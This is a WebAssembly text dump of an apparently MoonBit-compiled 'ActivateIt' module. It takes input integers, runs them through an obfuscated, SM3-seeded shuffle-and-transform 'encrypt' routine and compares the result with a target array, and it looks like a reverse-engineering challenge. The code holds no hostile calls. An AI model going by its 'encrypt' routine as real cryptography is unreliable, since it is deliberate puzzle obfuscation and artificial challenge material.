  (global $username/ActivateIt.sub_401011 (;13;) (mut (ref null $<<<Int>=>Int>=><Int>=>Int>=>Int)) (ref.null $<<<Int>=>Int>=><Int>=>Int>=>Int))
  (global $username/ActivateIt.sub_401554|<Int*Int>| (;14;) (mut (ref null $<<<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>)) (ref.null $<<<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>))
  (global $moonbit.string_pool (;15;) (ref $moonbit.string_pool_type) (i32.const 9) (array.new_default $moonbit.string_pool_type))
  (global $moonbit.bytes.default (;16;) (ref $moonbit.bytes) (array.new_fixed $moonbit.bytes 0))
  (start $*init*/54)
  (elem $elem0 declare (ref func) (ref.func $$username/ActivateIt.sub_401554|Int|.fn/39) (ref.func $$username/ActivateIt.sub_401031|Int|.fn/28) (ref.func $@moonbitlang/x/crypto.SM3Context::update_from_iter.fn/11) (ref.func $username/ActivateIt.sub_401554|Int|.dyncall) (ref.func $$username/ActivateIt.sub_401536|<<Int*Int>>=><Int*Int>|.fn/32) (ref.func $$username/ActivateIt.sub_401116|Int|.fn/23) (ref.func $$username/ActivateIt.sub_401116|<<Int*Int>*<Int*Int>>|.fn/13) (ref.func $$username/ActivateIt.sub_401326|Int|.fn/27) (ref.func $$username/ActivateIt.sub_401116|Int|.fn/22) (ref.func $$username/ActivateIt.encrypt.fn/49) (ref.func $$username/ActivateIt.sub_401116|<Int*Int>|.fn/19) (ref.func $FixedArray::iter|UInt|.fn/6) (ref.func $$username/ActivateIt.sub_401554|<Int*Int>|.fn/42) (ref.func $$username/ActivateIt.shuffle|<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>|.fn/44) (ref.func $$username/ActivateIt.sub_401536|<<Int*Int>*<Int*Int>>|.fn/34) (ref.func $$username/ActivateIt.sub_401116|<<Int*Int>*<Int*Int>>|.fn/15) (ref.func $@moonbitlang/core/builtin.Logger::@moonbitlang/core/builtin.StringBuilder::write_char.dyncall_as_@moonbitlang/core/builtin.Logger) (ref.func $Iter::each|Byte|.fn/5) (ref.func $username/ActivateIt.sub_401011.dyncall) (ref.func $username/ActivateIt.sub_401031|Int|.dyncall) (ref.func $$username/ActivateIt.encrypt.fn/46) (ref.func $$username/ActivateIt.sub_401554|<Int*Int>|.fn/41) (ref.func $$username/ActivateIt.sub_401554|Int|.fn/38) (ref.func $$username/ActivateIt.sub_401031|<<Int*Int>>=><Int*Int>|.fn/30) (ref.func $@moonbitlang/core/builtin.Logger::$default_impl::write_sub_string|@moonbitlang/core/builtin.StringBuilder|.dyncall_as_@moonbitlang/core/builtin.Logger) (ref.func $$username/ActivateIt.sub_401116|<<Int*Int>>=><Int*Int>|.fn/18) (ref.func $$username/ActivateIt.sub_401554|<Int*Int>|.fn/40) (ref.func $$username/ActivateIt.sub_401536|Int|.fn/35) (ref.func $$username/ActivateIt.sub_401031|<<Int*Int>*<Int*Int>>|.fn/29) (ref.func $username/ActivateIt.sub_401641|<<Int*Int>*<Int*Int>>|.dyncall) (ref.func $$username/ActivateIt.encrypt.fn/48) (ref.func $$username/ActivateIt.sub_401536|<<Int*Int>>=><Int*Int>|.fn/31) (ref.func $$username/ActivateIt.sub_401116|<<Int*Int>>=><Int*Int>|.fn/16) (ref.func $$username/ActivateIt.shuffle|<<Int>=>Int>=><Int>=>Int|.fn/45) (ref.func $username/ActivateIt.sub_401536|<<Int*Int>*<Int*Int>>|.dyncall) (ref.func $$username/ActivateIt.sub_401326|Int|.fn/25) (ref.func $username/ActivateIt.sub_401554|<Int*Int>|.dyncall) (ref.func $$username/ActivateIt.sub_401261|<Int*Int>|.fn/43) (ref.func $$username/ActivateIt.sub_401326|Int|.fn/26) (ref.func $Iter::empty|Byte|.fn/8) (ref.func $Bytes::from_fixedarray.fn/3) (ref.func $$username/ActivateIt.sub_401536|<<Int*Int>*<Int*Int>>|.fn/33) (ref.func $$username/ActivateIt.sub_401116|<Int*Int>|.fn/21) (ref.func $@moonbitlang/core/builtin.Logger::@moonbitlang/core/builtin.StringBuilder::write_substring.dyncall_as_@moonbitlang/core/builtin.Logger) (ref.func $$username/ActivateIt.encrypt.fn/47) (ref.func $$username/ActivateIt.encrypt.fn/50) (ref.func $$username/ActivateIt.sub_401116|<Int*Int>|.fn/20) (ref.func $$username/ActivateIt.encrypt.fn/51) (ref.func $Iter::collect|Byte|.fn/9) (ref.func $Bytes::iter.fn/4) (ref.func $$username/ActivateIt.sub_401116|<<Int*Int>>=><Int*Int>|.fn/17) (ref.func $@moonbitlang/core/builtin.Logger::@moonbitlang/core/builtin.StringBuilder::write_string.dyncall_as_@moonbitlang/core/builtin.Logger) (ref.func $@moonbitlang/core/random/internal/random_source.State::refill.fn/2) (ref.func $$moonbitlang/x/crypto.arr_u32_to_u8be.fn/10) (ref.func $$username/ActivateIt.sub_401536|Int|.fn/36) (ref.func $$username/ActivateIt.sub_401116|Int|.fn/24) (ref.func $username/ActivateIt.sub_401031|<<Int*Int>>=><Int*Int>|.dyncall) (ref.func $Iter::eachi|UInt|.fn/7) (ref.func $username/ActivateIt.sub_401031|<<Int*Int>*<Int*Int>>|.dyncall) (ref.func $@moonbitlang/core/random/internal/random_source.State::init64.fn/1) (ref.func $$username/ActivateIt.sub_401554|Int|.fn/37) (ref.func $$username/ActivateIt.sub_401116|<<Int*Int>*<Int*Int>>|.fn/14) (ref.func $$username/ActivateIt.sub_401011.fn/12))
...
  (func $username/ActivateIt.sub_401554|<Int*Int>|.dyncall (;3;) (param $*env/776 (;0;) (ref $<<<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>)) (param $n/609 (;1;) (ref $<<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>)) (result (ref $<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>))
    local.get $n/609
    call $username/ActivateIt.sub_401554|<Int*Int>|
  )
  (func $username/ActivateIt.sub_401011.dyncall (;4;) (param $*env/775 (;0;) (ref $<<<Int>=>Int>=><Int>=>Int>=>Int)) (param $c/543 (;1;) (ref $<<Int>=>Int>=><Int>=>Int)) (result i32)
    local.get $c/543
    call $username/ActivateIt.sub_401011
  )
  (func $username/ActivateIt.sub_401554|Int|.dyncall (;5;) (param $*env/774 (;0;) (ref $<<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>>=><<Int>=>Int>=><Int>=>Int)) (param $n/603 (;1;) (ref $<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>)) (result (ref $<<Int>=>Int>=><Int>=>Int))
    local.get $n/603
    call $username/ActivateIt.sub_401554|Int|
  )
  (func $username/ActivateIt.sub_401031|<<Int*Int>>=><Int*Int>|.dyncall (;6;) (param $*env/773 (;0;) (ref $<<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>>=><<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>)) (param $*discard_/585 (;1;) (ref $<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>)) (result (ref $<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>))
    local.get $*discard_/585
    call $username/ActivateIt.sub_401031|<<Int*Int>>=><Int*Int>|
  )
  (func $username/ActivateIt.sub_401641|<<Int*Int>*<Int*Int>>|.dyncall (;7;) (param $*env/772 (;0;) (ref $<Int>=><<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>)) (param $n/598 (;1;) i32) (result (ref $<<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>))
    local.get $n/598
    call $username/ActivateIt.sub_401641|<<Int*Int>*<Int*Int>>|
  )
  (func $username/ActivateIt.sub_401031|Int|.dyncall (;8;) (param $*env/771 (;0;) (ref $<<Int>=>Int>=><Int>=>Int)) (param $*discard_/581 (;1;) (ref $<Int>=>Int)) (result (ref $<Int>=>Int))
    local.get $*discard_/581
    call $username/ActivateIt.sub_401031|Int|
  )
  (func $username/ActivateIt.sub_401536|<<Int*Int>*<Int*Int>>|.dyncall (;9;) (param $*env/770 (;0;) (ref $<<<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>)) (param $n/593 (;1;) (ref $<<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>)) (result (ref $<<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>))
    local.get $n/593
    call $username/ActivateIt.sub_401536|<<Int*Int>*<Int*Int>>|
  )
  (func $username/ActivateIt.sub_401031|<<Int*Int>*<Int*Int>>|.dyncall (;10;) (param $*env/769 (;0;) (ref $<<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>)) (param $*discard_/583 (;1;) (ref $<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>)) (result (ref $<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>))
    local.get $*discard_/583
    call $username/ActivateIt.sub_401031|<<Int*Int>*<Int*Int>>|
  )
  (func $username/ActivateIt.compare (;11;) (export "compare") (result i32)
    global.get $username/ActivateIt.input
    ref.as_non_null
    call $username/ActivateIt.encrypt
    global.get $username/ActivateIt.target
    ref.as_non_null
    call $@moonbitlang/core/builtin.Eq::@moonbitlang/core/builtin.Array::op_equal|Int|
  )
  (func $username/ActivateIt.get_encrypted_input (;12;) (export "get_encrypted_input") (param $idx/656 (;0;) i32) (result i32)
    global.get $username/ActivateIt.input
    ref.as_non_null
    call $username/ActivateIt.encrypt
    local.get $idx/656
    call $@moonbitlang/core/builtin.Array::op_get|Int|
  )
  (func $username/ActivateIt.encrypt (;13;) (param $s/626 (;0;) (ref $@moonbitlang/core/builtin.Array<Int>)) (result (ref $@moonbitlang/core/builtin.Array<Int>))
    (local $n/625 i32)
    (local $seed/627 (ref $moonbit.bytes))
    (local $r/628 (ref $@moonbitlang/core/random.Rand))
    (local $a/629 (ref $@moonbitlang/core/builtin.Array<<<Int>=>Int>=><Int>=>Int>))
    (local $b/631 (ref $@moonbitlang/core/builtin.Array<<<Int>=>Int>=><Int>=>Int>))
    (local $*start7/633 i32)
    (local $*end8/634 i32)
    (local $i/635 i32)
    (local $*func/636 (ref $<<<Int>=>Int>=><Int>=>Int>=><<Int>=>Int>=><Int>=>Int))
    (local $c/638 (ref $@moonbitlang/core/builtin.Array<<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>>))
    (local $*start13/639 i32)
    (local $*end14/640 i32)
    (local $i/641 i32)
    (local $*func/642 (ref $<<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>>=><<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>))
    (local $c/644 (ref $@moonbitlang/core/builtin.Array<<<Int>=>Int>=><Int>=>Int>))
    (local $i/645 i32)
    (local $*func/646 (ref $<<<Int>=>Int>=><Int>=>Int>=><<Int>=>Int>=><Int>=>Int))
    local.get $s/626
    call $@moonbitlang/core/builtin.Array::length|Int|
    local.set $n/625
    i32.const 0
    i32.const 48
    array.new_data $moonbit.bytes 0
    call $username/ActivateIt.hash
    local.set $seed/627
    local.get $seed/627
    call $moonbitlang/core/random.new
    local.set $r/628
    local.get $n/625
    ref.func $$username/ActivateIt.encrypt.fn/51
    local.get $r/628
    local.get $n/625
    struct.new $$username/ActivateIt.encrypt.fn/51-cap
    call $@moonbitlang/core/builtin.Array::makei|<<Int>=>Int>=><Int>=>Int|
    local.set $a/629
    local.get $n/625
    ref.func $$username/ActivateIt.encrypt.fn/50
    local.get $r/628
    local.get $n/625
    struct.new $$username/ActivateIt.encrypt.fn/50-cap
    call $@moonbitlang/core/builtin.Array::makei|<<Int>=>Int>=><Int>=>Int|
    local.set $b/631
    i32.const 1
    local.set $*start7/633
    local.get $n/625
    local.set $*end8/634
    local.get $*start7/633
    loop $label0 (param i32)
      local.set $i/635
      local.get $i/635
      local.get $*end8/634
      i32.lt_s
      if
        local.get $a/629
        local.get $i/635
        local.get $a/629
        local.get $i/635
        i32.const 1
        i32.sub
        call $@moonbitlang/core/builtin.Array::op_get|<<Int>=>Int>=><Int>=>Int|
        call $username/ActivateIt.sub_401536|Int|
        call $username/ActivateIt.sub_401116|Int|
        local.set $*func/636
        local.get $*func/636
        local.get $a/629
        local.get $i/635
        call $@moonbitlang/core/builtin.Array::op_get|<<Int>=>Int>=><Int>=>Int|
        local.get $*func/636
        struct.get $<<<Int>=>Int>=><Int>=>Int>=><<Int>=>Int>=><Int>=>Int $field0
        call_ref $<<<Int>=>Int>=><Int>=>Int>=><<Int>=>Int>=><Int>=>Int-sig
        call $@moonbitlang/core/builtin.Array::op_set|<<Int>=>Int>=><Int>=>Int|
        drop
        local.get $i/635
        i32.const 1
        i32.add
        br $label0
      end
      i32.const 0
      drop
    end $label0
    i32.const 0
    drop
    local.get $s/626
    global.get $username/ActivateIt.sub_401641|<<Int*Int>*<Int*Int>>|
    ref.as_non_null
    call $@moonbitlang/core/builtin.Array::map|Int+<<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>|
    global.get $username/ActivateIt.sub_401536|<<Int*Int>*<Int*Int>>|
    ref.as_non_null
    call $@moonbitlang/core/builtin.Array::map|<<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>+<<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>|
    global.get $username/ActivateIt.sub_401554|<Int*Int>|
    ref.as_non_null
    call $@moonbitlang/core/builtin.Array::map|<<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>+<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>|
    global.get $username/ActivateIt.sub_401031|<<Int*Int>>=><Int*Int>|
    ref.as_non_null
    call $username/ActivateIt.sub_401536|<<Int*Int>>=><Int*Int>|
    call $username/ActivateIt.sub_401221|<<Int*Int>>=><Int*Int>|
    call $username/ActivateIt.sub_401261|<Int*Int>|
    call $@moonbitlang/core/builtin.Array::map|<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>+<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>|
    local.set $c/638
    local.get $r/628
    local.get $a/629
    call $username/ActivateIt.shuffle|<<Int>=>Int>=><Int>=>Int|
    drop
    local.get $r/628
    local.get $b/631
    call $username/ActivateIt.shuffle|<<Int>=>Int>=><Int>=>Int|
    drop
    local.get $r/628
    local.get $c/638
    call $username/ActivateIt.shuffle|<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>|
    drop
    i32.const 1
    local.set $*start13/639
    local.get $n/625
    local.set $*end14/640
    local.get $*start13/639
    loop $label1 (param i32)
      local.set $i/641
      local.get $i/641
      local.get $*end14/640
      i32.lt_s
      if
        local.get $c/638
        local.get $i/641
        local.get $c/638
        local.get $i/641
        call $@moonbitlang/core/builtin.Array::op_get|<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>|
        call $username/ActivateIt.sub_401116|<Int*Int>|
        local.set $*func/642
        local.get $*func/642
        local.get $c/638
        local.get $i/641
        i32.const 1
        i32.sub
        call $@moonbitlang/core/builtin.Array::op_get|<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>|
        local.get $*func/642
        struct.get $<<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>>=><<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int> $field0
        call_ref $<<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>>=><<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>-sig
        call $@moonbitlang/core/builtin.Array::op_set|<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>|
        drop
        local.get $i/641
        i32.const 1
        i32.add
        br $label1
      end
      i32.const 0
      drop
    end $label1
    i32.const 0
    drop
    local.get $c/638
    global.get $username/ActivateIt.sub_401554|Int|
    ref.as_non_null
    call $@moonbitlang/core/builtin.Array::map|<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>+<<Int>=>Int>=><Int>=>Int|
    local.set $c/644
    local.get $n/625
    i32.const 1
    i32.sub
    loop $label2 (param i32)
      local.set $i/645
      local.get $i/645
      i32.const 0
      i32.gt_s
      if
        local.get $c/644
        local.get $i/645
        i32.const 1
        i32.sub
        local.get $c/644
        local.get $i/645
        i32.const 1
        i32.sub
        call $@moonbitlang/core/builtin.Array::op_get|<<Int>=>Int>=><Int>=>Int|
        call $username/ActivateIt.sub_401116|Int|
        local.set $*func/646
        local.get $*func/646
        local.get $c/644
        local.get $i/645
        call $@moonbitlang/core/builtin.Array::op_get|<<Int>=>Int>=><Int>=>Int|
        local.get $*func/646
        struct.get $<<<Int>=>Int>=><Int>=>Int>=><<Int>=>Int>=><Int>=>Int $field0
        call_ref $<<<Int>=>Int>=><Int>=>Int>=><<Int>=>Int>=><Int>=>Int-sig
        call $@moonbitlang/core/builtin.Array::op_set|<<Int>=>Int>=><Int>=>Int|
        drop
        local.get $i/645
        i32.const 1
        i32.sub
        br $label2
      end
      i32.const 0
      drop
    end $label2
    i32.const 0
    drop
    local.get $c/644
    local.get $n/625
    call $username/ActivateIt.sub_401641|Int|
    call $username/ActivateIt.sub_401116|Int|
    call $@moonbitlang/core/builtin.Array::map|<<Int>=>Int>=><Int>=>Int+<<Int>=>Int>=><Int>=>Int|
    ref.func $$username/ActivateIt.encrypt.fn/46
    local.get $b/631
    struct.new $$username/ActivateIt.encrypt.fn/46-cap
    call $@moonbitlang/core/builtin.Array::mapi|<<Int>=>Int>=><Int>=>Int+<<Int>=>Int>=><Int>=>Int|
    ref.func $$username/ActivateIt.encrypt.fn/47
    local.get $a/629
    struct.new $$username/ActivateIt.encrypt.fn/47-cap
    call $@moonbitlang/core/builtin.Array::mapi|<<Int>=>Int>=><Int>=>Int+<<Int>=>Int>=><Int>=>Int|
    global.get $username/ActivateIt.sub_401011
    ref.as_non_null
    call $@moonbitlang/core/builtin.Array::map|<<Int>=>Int>=><Int>=>Int+Int|
    ref.func $$username/ActivateIt.encrypt.fn/48
    struct.new $<Int>=>Int
    call $@moonbitlang/core/builtin.Array::map|Int+Char|
    call $String::from_array
    call $String::to_bytes
    call $Bytes::iter
    call $@moonbitlang/core/builtin.Array::from_iter|Byte|
    ref.func $$username/ActivateIt.encrypt.fn/49
    struct.new $<Int>=>Int
    call $@moonbitlang/core/builtin.Array::map|Byte+Int|
  )
  (func $$username/ActivateIt.encrypt.fn/51 (;14;) (param $*env/767 (;0;) (ref $<Int>=><<Int>=>Int>=><Int>=>Int)) (param $*discard_/630 (;1;) i32) (result (ref $<<Int>=>Int>=><Int>=>Int))
    (local $n/625 i32)
    (local $r/628 (ref $@moonbitlang/core/random.Rand))
    (local $*casted_env/768 (ref $$username/ActivateIt.encrypt.fn/51-cap))
    local.get $*env/767
    ref.cast $$username/ActivateIt.encrypt.fn/51-cap
    local.tee $*casted_env/768
    struct.get $$username/ActivateIt.encrypt.fn/51-cap $field2
    local.set $n/625
    local.get $*casted_env/768
    struct.get $$username/ActivateIt.encrypt.fn/51-cap $field1
    ref.as_non_null
    local.set $r/628
    local.get $r/628
    local.get $n/625
    call $@moonbitlang/core/random.Rand::int
    call $username/ActivateIt.sub_401641|Int|
  )
  (func $$username/ActivateIt.encrypt.fn/50 (;15;) (param $*env/765 (;0;) (ref $<Int>=><<Int>=>Int>=><Int>=>Int)) (param $*discard_/632 (;1;) i32) (result (ref $<<Int>=>Int>=><Int>=>Int))
    (local $n/625 i32)
    (local $r/628 (ref $@moonbitlang/core/random.Rand))
    (local $*casted_env/766 (ref $$username/ActivateIt.encrypt.fn/50-cap))
    local.get $*env/765
    ref.cast $$username/ActivateIt.encrypt.fn/50-cap
    local.tee $*casted_env/766
    struct.get $$username/ActivateIt.encrypt.fn/50-cap $field2
    local.set $n/625
    local.get $*casted_env/766
    struct.get $$username/ActivateIt.encrypt.fn/50-cap $field1
    ref.as_non_null
    local.set $r/628
    i32.const 1
    local.get $r/628
    local.get $n/625
    call $@moonbitlang/core/random.Rand::int
    i32.add
    call $username/ActivateIt.sub_401641|Int|
  )
  (func $$username/ActivateIt.encrypt.fn/49 (;16;) (param $*env/764 (;0;) (ref $<Int>=>Int)) (param $*x/655 (;1;) i32) (result i32)
    local.get $*x/655
  )
  (func $$username/ActivateIt.encrypt.fn/48 (;17;) (param $*env/763 (;0;) (ref $<Int>=>Int)) (param $*x/654 (;1;) i32) (result i32)
    local.get $*x/654
  )
  (func $$username/ActivateIt.encrypt.fn/47 (;18;) (param $*env/761 (;0;) (ref $<Int*<<Int>=>Int>=><Int>=>Int>=><<Int>=>Int>=><Int>=>Int)) (param $i/651 (;1;) i32) (param $x/652 (;2;) (ref $<<Int>=>Int>=><Int>=>Int)) (result (ref $<<Int>=>Int>=><Int>=>Int))
    (local $a/629 (ref $@moonbitlang/core/builtin.Array<<<Int>=>Int>=><Int>=>Int>))
    (local $*func/653 (ref $<<<Int>=>Int>=><Int>=>Int>=><<Int>=>Int>=><Int>=>Int))
    (local $*casted_env/762 (ref $$username/ActivateIt.encrypt.fn/47-cap))
    local.get $*env/761
    ref.cast $$username/ActivateIt.encrypt.fn/47-cap
    local.tee $*casted_env/762
    struct.get $$username/ActivateIt.encrypt.fn/47-cap $field1
    ref.as_non_null
    local.set $a/629
    local.get $a/629
    local.get $i/651
    call $@moonbitlang/core/builtin.Array::op_get|<<Int>=>Int>=><Int>=>Int|
    call $username/ActivateIt.sub_401116|Int|
    local.set $*func/653
    local.get $*func/653
    local.get $x/652
    local.get $*func/653
    struct.get $<<<Int>=>Int>=><Int>=>Int>=><<Int>=>Int>=><Int>=>Int $field0
    call_ref $<<<Int>=>Int>=><Int>=>Int>=><<Int>=>Int>=><Int>=>Int-sig
  )
  (func $$username/ActivateIt.encrypt.fn/46 (;19;) (param $*env/759 (;0;) (ref $<Int*<<Int>=>Int>=><Int>=>Int>=><<Int>=>Int>=><Int>=>Int)) (param $i/648 (;1;) i32) (param $x/649 (;2;) (ref $<<Int>=>Int>=><Int>=>Int)) (result (ref $<<Int>=>Int>=><Int>=>Int))
    (local $b/631 (ref $@moonbitlang/core/builtin.Array<<<Int>=>Int>=><Int>=>Int>))
    (local $*func/650 (ref $<<<Int>=>Int>=><Int>=>Int>=><<Int>=>Int>=><Int>=>Int))
    (local $*casted_env/760 (ref $$username/ActivateIt.encrypt.fn/46-cap))
    local.get $*env/759
    ref.cast $$username/ActivateIt.encrypt.fn/46-cap
    local.tee $*casted_env/760
    struct.get $$username/ActivateIt.encrypt.fn/46-cap $field1
    ref.as_non_null
    local.set $b/631
    local.get $x/649
    call $username/ActivateIt.sub_401326|Int|
    local.set $*func/650
    local.get $*func/650
    local.get $b/631
    local.get $i/648
    call $@moonbitlang/core/builtin.Array::op_get|<<Int>=>Int>=><Int>=>Int|
    local.get $*func/650
    struct.get $<<<Int>=>Int>=><Int>=>Int>=><<Int>=>Int>=><Int>=>Int $field0
    call_ref $<<<Int>=>Int>=><Int>=>Int>=><<Int>=>Int>=><Int>=>Int-sig
  )
  (func $username/ActivateIt.shuffle|<<Int>=>Int>=><Int>=>Int| (;20;) (param $r/621 (;0;) (ref $@moonbitlang/core/random.Rand)) (param $arr/622 (;1;) (ref $@moonbitlang/core/builtin.Array<<<Int>=>Int>=><Int>=>Int>)) (result i32)
    local.get $r/621
    local.get $arr/622
    call $@moonbitlang/core/builtin.Array::length|<<Int>=>Int>=><Int>=>Int|
    ref.func $$username/ActivateIt.shuffle|<<Int>=>Int>=><Int>=>Int|.fn/45
    local.get $arr/622
    struct.new $$username/ActivateIt.shuffle|<<Int>=>Int>=><Int>=>Int|.fn/45-cap
    call $@moonbitlang/core/random.Rand::shuffle
  )
  (func $$username/ActivateIt.shuffle|<<Int>=>Int>=><Int>=>Int|.fn/45 (;21;) (param $*env/757 (;0;) (ref $<Int*Int>=>Unit)) (param $i/623 (;1;) i32) (param $j/624 (;2;) i32) (result i32)
    (local $arr/622 (ref $@moonbitlang/core/builtin.Array<<<Int>=>Int>=><Int>=>Int>))
    (local $*casted_env/758 (ref $$username/ActivateIt.shuffle|<<Int>=>Int>=><Int>=>Int|.fn/45-cap))
    local.get $*env/757
    ref.cast $$username/ActivateIt.shuffle|<<Int>=>Int>=><Int>=>Int|.fn/45-cap
    local.tee $*casted_env/758
    struct.get $$username/ActivateIt.shuffle|<<Int>=>Int>=><Int>=>Int|.fn/45-cap $field1
    ref.as_non_null
    local.set $arr/622
    local.get $arr/622
    local.get $i/623
    local.get $j/624
    call $@moonbitlang/core/builtin.Array::swap|<<Int>=>Int>=><Int>=>Int|
  )
  (func $username/ActivateIt.shuffle|<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>| (;22;) (param $r/617 (;0;) (ref $@moonbitlang/core/random.Rand)) (param $arr/618 (;1;) (ref $@moonbitlang/core/builtin.Array<<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>>)) (result i32)
    local.get $r/617
    local.get $arr/618
    call $@moonbitlang/core/builtin.Array::length|<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>|
    ref.func $$username/ActivateIt.shuffle|<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>|.fn/44
    local.get $arr/618
    struct.new $$username/ActivateIt.shuffle|<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>|.fn/44-cap
    call $@moonbitlang/core/random.Rand::shuffle
  )
  (func $$username/ActivateIt.shuffle|<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>|.fn/44 (;23;) (param $*env/755 (;0;) (ref $<Int*Int>=>Unit)) (param $i/619 (;1;) i32) (param $j/620 (;2;) i32) (result i32)
    (local $arr/618 (ref $@moonbitlang/core/builtin.Array<<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>>))
    (local $*casted_env/756 (ref $$username/ActivateIt.shuffle|<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>|.fn/44-cap))
    local.get $*env/755
    ref.cast $$username/ActivateIt.shuffle|<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>|.fn/44-cap
    local.tee $*casted_env/756
    struct.get $$username/ActivateIt.shuffle|<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>|.fn/44-cap $field1
    ref.as_non_null
    local.set $arr/618
    local.get $arr/618
    local.get $i/619
    local.get $j/620
    call $@moonbitlang/core/builtin.Array::swap|<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>|
  )
  (func $username/ActivateIt.hash (;24;) (param $s/616 (;0;) (ref $moonbit.bytes)) (result (ref $moonbit.bytes))
    local.get $s/616
    i64.const 4294967296
    call $Bytes::to_fixedarray
    call $moonbitlang/x/crypto.sm3
    i64.const 4294967296
    call $moonbitlang/core/bytes.from_fixedarray
  )
  (func $$username/ActivateIt.add_target_wrapper/52 (;25;) (export "add_target") (param $x/615 (;0;) i32)
    local.get $x/615
    call $username/ActivateIt.add_target
    drop
  )
  (func $username/ActivateIt.add_target (;26;) (param $x/615 (;0;) i32) (result i32)
    global.get $username/ActivateIt.target
    ref.as_non_null
    local.get $x/615
    array.new_fixed $moonbit.array_i32 1
    i32.const 1
    struct.new $@moonbitlang/core/builtin.Array<Int>
    call $@moonbitlang/core/builtin.Array::append|Int|
  )
  (func $$username/ActivateIt.add_input_wrapper/53 (;27;) (export "add_input") (param $x/614 (;0;) i32)
    local.get $x/614
    call $username/ActivateIt.add_input
    drop
  )
  (func $username/ActivateIt.add_input (;28;) (param $x/614 (;0;) i32) (result i32)
    global.get $username/ActivateIt.input
    ref.as_non_null
    local.get $x/614
    array.new_fixed $moonbit.array_i32 1
    i32.const 1
    struct.new $@moonbitlang/core/builtin.Array<Int>
    call $@moonbitlang/core/builtin.Array::append|Int|
  )
